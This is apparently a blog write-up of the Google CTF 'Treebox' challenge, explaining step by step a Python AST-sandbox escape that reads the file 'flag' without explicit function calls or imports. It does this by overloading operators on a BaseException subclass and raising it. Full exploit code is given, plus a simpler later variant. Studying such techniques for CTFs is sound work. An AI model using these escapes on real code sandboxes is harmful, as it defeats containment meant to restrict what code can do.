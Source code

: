 ```yaml
---
title: "Treebox"
date: 2022-08-19T10:04:36+05:30
tags:
- Google CTF
- CTF
- Python
- AST
- Sandbox Escape
draft: false
---
```


This challenge asks for python code as an input, converts it into an AST (abstract syntax tree) and if there aren't any function calls or imports, executes the code. Our goal here is to avoid explicitly calling any functions yet reading the flag located at `flag`. We also can't import any modules explicitly. If we read the source code provided for the challenge, we can observe that the `sys` module is already imported. We can piggyback on this fact to use its modules.

We shall, however, first find all the modules in `sys.modules` that have a `get_data` like function in their `__loader__` attribute. To do so, we run the following locally:

``` python
import sys

for name, handle in sys.modules.items():
    if loader := getattr(handle, '__loader__'):
        for loader_function_name in dir(loader):
            if 'get_data' in loader_function_name:
                print(f"sys.modules['{name}'].__loader__.{loader_function_name}")
```

There are a lot of modules that have the `get_data`  From the output we get, this looks the most promising:

```python
sys.modules["code"].__loader__.get_data
```

Now we can slowly assemble our exploit.

{{< collapsable-explanation >}}

```python
import sys
```

We create a class called `Read` that inherits from the `BaseException` class.

```python
class Read(BaseException):
```
We define the members of the class as the following:

Set the addition operator to the `str` function to stringify bytes-like
objects.

```python
    __add__ = str
```

Set the division operator to os.loader.get_data method
which can be used to read the raw bytes from a file.
```python
    __truediv__ = sys.modules["code"].__loader__.get_data
```

Set the indexing operator to print, which we'll use to print the flag

```python
    __getitem__ = print
```

Now we need to detonate these operators without calling a function.
The best way is to define an `__init__` constructor method that is called implicitly when the
class is created.

Through this, we read the raw bytes of the file "flag" stringify it and finally print it.

```python
    def __init__(self):
        self[self + self / "flag"]
```

With all of that setup out of the way, we can instantiate the class by raising it as an exception.

```python
raise Read
```

```python
import sys
class Read(BaseException):
    __add__ = str
    __truediv__ = sys.modules["code"].__loader__.get_data
    __getitem__ = print
    def __init__(self):
        self[self + self / "flag"]

raise Read
```

{{< / collapsable-explanation >}}

### Update: 2025-09-15

I was lurking through my past writeups, here's an ever easier way to achieve the same file read
without importing the `sys` module.

```python
class Read(BaseException):
    __add__ = list
    __truediv__ = open
    __getitem__ = print
    def __init__(self):
        self[self + self / "flag"]

raise Read
```
